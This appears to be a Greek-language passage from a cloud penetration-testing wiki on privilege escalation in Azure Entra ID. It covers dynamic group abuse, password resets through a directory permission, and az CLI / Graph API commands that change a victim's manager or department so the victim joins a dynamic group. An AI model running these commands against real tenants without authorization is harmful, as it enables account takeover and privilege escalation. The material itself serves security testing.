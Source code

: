 ### Δυναμικές Ομάδες Privesc

Ενδέχεται να είναι δυνατή η κλιμάκωση δικαιωμάτων από τους χρήστες τροποποιώντας τις δικές τους ιδιότητες για να προστεθούν ως μέλη δυναμικών ομάδων. Για περισσότερες πληροφορίες, ελέγξτε:

{{#ref}}
dynamic-groups.md
{{#endref}}

## Χρήστες

### `microsoft.directory/users/password/update`

Αυτή η άδεια επιτρέπει την επαναφορά κωδικού πρόσβασης σε μη διαχειριστές χρήστες, επιτρέποντας σε έναν πιθανό επιτιθέμενο να κλιμακώσει δικαιώματα σε άλλους χρήστες. Αυτή η άδεια δεν μπορεί να ανατεθεί σε προσαρμοσμένους ρόλους.
```bash
az ad user update --id <user-id> --password "kweoifuh.234"
```
### `microsoft.directory/users/basic/update`

Αυτή η άδεια επιτρέπει την τροποποίηση των ιδιοτήτων του χρήστη. Είναι συνηθισμένο να βρίσκουμε δυναμικές ομάδες που προσθέτουν χρήστες με βάση τις τιμές των ιδιοτήτων, επομένως, αυτή η άδεια θα μπορούσε να επιτρέψει σε έναν χρήστη να ορίσει την απαραίτητη τιμή ιδιότητας για να είναι μέλος μιας συγκεκριμένης δυναμικής ομάδας και να κλιμακώσει τα προνόμια.
```bash
#e.g. change manager of a user
victimUser="<userID>"
managerUser="<userID>"
az rest --method PUT \
--uri "https://graph.microsoft.com/v1.0/users/$managerUser/manager/\$ref" \
--headers "Content-Type=application/json" \
--body '{"@odata.id": "https://graph.microsoft.com/v1.0/users/$managerUser"}'

#e.g. change department of a user
az rest --method PATCH \
--uri "https://graph.microsoft.com/v1.0/users/$victimUser" \
--headers "Content-Type=application/json" \
--body "{\"department\": \"security\"}"
```
## Πολιτικές Προσβασιμότητας με Όρους & Παράκαμψη MFA

Λανθασμένα ρυθμισμένες πολιτικές προσβασιμότητας με όρους που απαιτούν MFA θα μπορούσαν να παρακαμφθούν, ελέγξτε:

{{#ref}}
az-conditional-access-policies-mfa-bypass.md
{{#endref}}

## Συσκευές
